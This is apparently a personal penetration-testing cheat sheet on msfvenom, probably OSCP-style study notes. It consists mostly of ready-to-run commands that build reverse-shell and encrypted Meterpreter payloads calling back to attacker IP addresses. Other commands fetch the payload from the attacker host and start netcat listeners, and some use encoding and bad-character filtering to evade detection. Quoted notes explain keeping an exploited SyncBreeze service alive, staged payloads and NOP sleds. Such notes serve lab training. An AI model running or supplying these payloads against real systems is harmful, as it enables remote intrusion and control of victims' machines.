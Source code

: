 ### Msfvenom
msfvenom --list encrypt  
msfvenom --list encoders  
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe  

### Improving the Exploit
```
The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.

If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.

To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:
```

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  

### staged vs stageless
```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)

Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. 

The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.

Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.
```

### NOP sled(verified less than 5 nops will reach page fault,as long as >=5, it is fine)
```
As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side-effect of writing some data at and around the top of the stack. 
This eventually mangles at least a couple of bytes close to the address pointed at by the ESP register. Unfortunately, this small change on the stack is a problem for us because the decoder starts exactly at the address pointed to by the ESP register. 
In short, the GetPC routine execution ends up changing a few bytes of the decoder itself (and potentially the encoded shellcode), which eventually fails the decoding process and crashes the target process.
One method to avoid this issue is to adjust ESP backwards, making use of assembly instructions such as DEC ESP, SUB ESP, 0xXX, before executing the decoder. Alternatively, we could create a wide "landing pad" for our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. 
This may sound complicated, but we simply precede our payload with a series of No Operation (or NOP) instructions, which have an opcode value of 0x90. As the name suggests, these instructions do nothing, and simply pass execution to the next instruction. 
Used in this way, these instructions, also defined as a NOP sled or NOP slide, will let the CPU "slide" through the NOPs until the payload is reached.In both cases, by the time the execution reaches the shellcode decoder, the stack pointer points far enough away from it so as to not corrupt the shellcode when the GetPC routine overwrites a few bytes on the stack.
```

